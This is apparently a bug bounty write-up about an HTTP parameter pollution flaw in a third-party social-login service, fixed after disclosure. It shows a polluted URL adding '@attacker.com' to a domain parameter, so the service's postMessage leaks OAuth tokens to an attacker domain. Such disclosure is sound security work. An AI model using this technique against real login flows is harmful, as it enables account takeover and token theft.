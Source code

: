 ```yaml
---
title: How one Parameter Pollution bug left many apps vulnerable to Account Takeover
date: 2024-02-01 04:00:00 +0100
categories: [Write-ups,OAuth]
tags: [parameter_pollution,oauth,postmessage]     # TAG names should always be lowercase
---
```


## INTRO
<p align="justify">While testing a private bug bounty program that enables users to log in using their social media accounts, I noticed that most of the OAuth flow happened on a completely different domain that didn’t belong to the target. Let’s call this domain “redacted.com”.</p>

<p align="justify">I did a quick search and found out that the “redacted.com” domain belongs to a cloud-based identity management service. This service offers its customers the ability to add a social login feature to their applications, among other things. I also saw that they have a Vulnerable Disclosure Program so I decided to take a closer look at the social login flow. If you’ve read my <a href="/posts/blog1/">previous blog post</a>, you know that I like testing for OAuth bugs.</p>

<p align="justify">I ended up finding a <b>HTTP parameter pollution</b> bug that allowed me to leak authentication tokens, leaving every app using the service vulnerable to account takeover attacks.</p>

## THE SOCIAL LOGIN FLOW
<p align="justify">When a user clicks on “Login with Google” on the target app I was initially testing, a new window opens and makes a request to <b>https://redacted.com/social-login</b>. The redacted.com domain then initiates the OAuth flow with Google and finally sends the user’s authentication token, along with other user information, back to the target app via a postMessage function. The target app receives this data and uses it to log in the user.</p>

<p align="justify">The request to https://redacted.com/social-login includes a “<b>domain</b>” parameter that contains a URL of the target application. Redacted.com verifies on the backend whether the provided URL matches a whitelisted URL. If you change the value to another domain (for example, “https://attacker.com”), you will receive an error message saying that it is an invalid domain and the login flow will be terminated.</p>

<p align="justify">If the URL passes the check, the OAuth flow is initiated, and redacted.com uses the domain value to set the postMessage’s targetOrigin parameter and send the user’s auth token to the target application. The page responsible for sending the token contained a script with the following code (I simplified the actual code for the blog post):</p>

```
var reqDomain = “https://target.com”; //the domain value is reflected here
var token = “<login_token_here>”;

opener.postMessage(token, reqDomain);
```

<p align="justify">This check is necessary because it prevents an attacker from simply modifying the domain parameter to "https://attacker.com" and having redacted.com send a victim’s authentication token and user data to this domain. However, it was flawed.</p>

## THE VULNERABILITY
<p align="justify">I tried a few common techniques to bypass this type of check, like setting the domain to ‘target.com.attacker.com’, ‘target.com@attacker.com’, and other variations but I still got the error message. Eventually, I found a way to bypass the check and send the data to an arbitrary domain using a <b>HTTP parameter pollution</b> attack.</p>

<p align="justify">A parameter pollution attack is a type of attack that is carried out by sending multiple parameters with the same name but with different values in a URL. For example, consider the following query string: <br><b>?domain=target.com&domain=attacker.com</b>

<p align="justify">In this example, there are two “domain” parameters, but each one has a different value. Different web servers behave in different ways when receiving multiple parameters with the same name. Some will take the first occurrence (“target.com”), some will take the last one (“attacker.com”), and some will read them as an array. This can sometimes cause unexpected behaviors that can be exploited by attackers.</p>

<p align="justify">To bypass the check on redacted.com, I added a second "domain" parameter with a different value:<br>
https://redacted.com/social-login?<b>domain</b>=https://target.com&<b>domain</b>=https://attacker.com</p>

<p align="justify">This time, the request did not cause an error and the response contained the following code:</p>

```
var reqDomain = “https://target.com,https://attacker.com”;
var token = “<login_token_here>”;

opener.postMessage(token, reqDomain);
```
<p align="justify">As you can see, the reqDomain variable now has the <b>two URLs</b> separated by a comma. That’s a good sign (for us at least)! I can only guess what’s causing this bypass since I don’t have access to the backend code but it’s clear that only the first domain value is validated while the second malicious domain is ignored. However, both values are returned as a comma-separated string. In this case it only worked when the first domain value was set to a valid whitelisted URL. If you switched the values, you would get an error message again.</p>

<p align="justify">Cool, we found a way to bypass the URL validation and get an unintended result. So how can we exploit this now? Our goal is to leak the authentication token, and to do so, we need to manipulate the postMessage targetOrigin parameter to send the message to a domain under our control.</p>

<p align="justify">At this point I wondered what would happen if we set the second domain parameter to "<b>@attacker.com</b>". If that resulted in a URL like "https://target.com,@attacker.com", it would technically be a valid URL, since the part before "@" would be interpreted as a username/password and the part after "@" would be the URL's domain.</p>

![url-structure](/assets/images/url-struct.jpg)

<p align="justify">Sure enough, this actually worked! Sending a request to <b>https://redacted.com/social-login?domain=https://target.com&domain=@attacker.com</b> resulted in the following response, enabling attacker.com to receive a message containing the authentication token:</p>

```
var reqDomain = “https://target.com,@attacker.com”;
var token = “<login_token_here>”;

opener.postMessage(token, reqDomain); //sends token to attacker.com
```

## EXPLOITATION

<p align="justify">To exploit this vulnerability, an attacker can trick a victim into initiating the OAuth flow from their malicious domain by opening a new window and requesting the URL with the polluted parameters.
Once redacted.com receives the authentication token, it will send it to the attacker's domain via the postMessage() function. The attacker can then use this leaked token to gain unauthorized access to the victim's account.</p>

<p align="justify">If the victim has previously authorized Google to share their data/tokens with redacted.com, the token will be sent automatically to the attacker without needing further user interaction.</p>

<p align="justify">I don't know the exact number of apps that use this third-party service for their social login feature, but every app that did was vulnerable to account takeovers because of this basic but impactful bug.</p>

## CONCLUSION
<p align="justify">HTTP Parameter Pollution is a simple bug type, but it can have a big security impact. I’ve used it a few times before to bypass similar checks, so it’s definitely a good idea to keep it in your bag of tricks.</p>

<p align="justify">I reported the bug to the third-party service through their Vulnerable Disclosure Program and it is now fixed. However, I didn’t report the bug to the private bug bounty program I was testing. Mainly because I didn't want them to close my report as ‘Informative’ or ‘N/A’ since the vulnerability was out of their control. I kind of regret not reporting it now, but at the time, I guess I cared more about my platform stats than getting a potential bounty. What would you have done in this situation?</p>

<br>
<p align="justify">To wrap up, I'm also including a list of helpful resources for those of you who want to learn more about HTTP Parameter Pollution, OAuth and OAuth vulnerabilities.</p>

- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/04-Testing_for_HTTP_Parameter_Pollution
- https://book.hacktricks.xyz/pentesting-web/parameter-pollution

<br>

- https://developer.okta.com/blog/2017/06/21/what-the-heck-is-oauth
- https://portswigger.net/web-security/oauth
- https://www.oauth.com/
- https://www.rfc-editor.org/rfc/rfc6749

<br>

- https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
- https://ninetyn1ne.github.io/2022-02-21-oauth-postmessage-misconfig/
- https://ysamm.com/?p=763
- https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover
- https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities
- https://blog.securityinnovation.com/pentesters-guide-to-evaluating-oauth-2.0 
- https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com 
- https://blog.dixitaditya.com/oauth-account-takeover 
